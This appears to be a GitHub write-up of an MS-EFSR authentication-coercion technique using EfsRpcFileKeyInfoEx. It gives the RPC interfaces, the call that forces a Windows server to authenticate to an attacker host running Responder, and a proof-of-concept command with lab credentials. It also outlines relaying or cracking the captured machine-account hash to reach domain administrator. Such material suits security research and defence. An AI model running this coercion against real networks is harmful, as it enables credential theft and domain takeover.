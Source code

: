 # MS-EFSR - Remote call to EfsRpcFileKeyInfoEx (opnum 16)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcFileKeyInfoEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d)

 - **Function operation number**: `16`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcFileKeyInfoEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcFileKeyInfoEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcFileKeyInfoEx(
   [in] handle_t binding_h,
   [in] DWORD dwFileKeyInfoFlags,
   [in, unique] EFS_RPC_BLOB* Reserved,
   [in, string] wchar_t* FileName,
   [in] DWORD InfoClass,
   [out] EFS_RPC_BLOB** KeyInfo
 );
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **dwFileKeyInfoFlags**: This parameter is reserved. It MUST be set to zero by the client and ignored by the server.

 - **Reserved**: This parameter is reserved. It MUST be set to NULL by the client and ignored by the server.

 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.

 - **InfoClass**: One of the values specified for the InfoClass parameter of the EfsRpcFileKeyInfo method. One of the values in the following table. With the exception of UPDATE_KEY_USED (0x00000100), a server SHOULD support all of these values. A server MAY choose to support UPDATE_KEY_USED.<45>

| Name | Value | Description |
|---|---|---|
| `BASIC_KEY_INFO` | `0x00000001` |  Request information about the keys used to encrypt the object's contents. On success, the server will return the information in an `EFS_KEY_INFO` (2.2.14) structure in the `KeyInfo` parameter. | 
| `CHECK_COMPATIBILITY_INFO` | `0x00000002` | Requests the EfsVersion for the encrypted file. On success, the server will return the information in an `EFS_COMPATIBILITY_INFO` structure in the KeyInfo parameter. | 
| `UPDATE_KEY_USED` | `0x00000100` | Update the user certificates used to give a specific user access to an object. The server will populate the `KeyInfo` parameter with a zero-terminated, wide character Unicode string that contains a newline-separated list of names of objects successfully updated. | 
| `CHECK_DECRYPTION_STATUS` | `0x00000200` | Request a hint from the server as to whether the given object could be successfully decrypted without further user intervention or higher-level events. The server will return this information in an `EFS_DECRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |
| `CHECK_ENCRYPTION_STATUS` | `0x00000400` | Request a hint from the server as to whether the given object could be successfully encrypted without further user intervention or higher-level events. The server will return this information in an `EFS_ENCRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |


 - **KeyInfo**: The server SHOULD ignore this parameter.

 - **Return Values**: The server SHOULD return a nonzero value.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcFileKeyInfoEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d
